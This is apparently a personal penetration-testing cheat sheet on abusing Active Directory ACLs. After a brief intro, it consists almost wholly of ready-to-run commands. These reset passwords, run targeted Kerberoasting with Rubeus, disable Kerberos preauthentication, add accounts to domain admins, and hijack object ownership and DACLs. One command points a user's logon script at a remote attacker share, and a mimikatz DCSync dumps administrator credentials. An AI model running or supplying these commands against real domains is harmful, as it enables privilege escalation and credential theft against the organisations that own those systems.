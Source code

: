 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
1. **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
2. **Targeted Kerberoasting**
    1. Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    2. Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    3. Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
3. **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
1. **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights
- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
```bash
net group "domain admins" spotless/add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
3. Self-Membership (Add to Group)
```bash
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight (User-Force-Change-Password (Password Reset))
```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty (Add to Group)
```bash
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner (Change the object’s owner)
```bash
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL (Grant Generic Permissions** (must be the owner))
```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```bash
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```


---

[back](/docs/AD/adprivesc.html)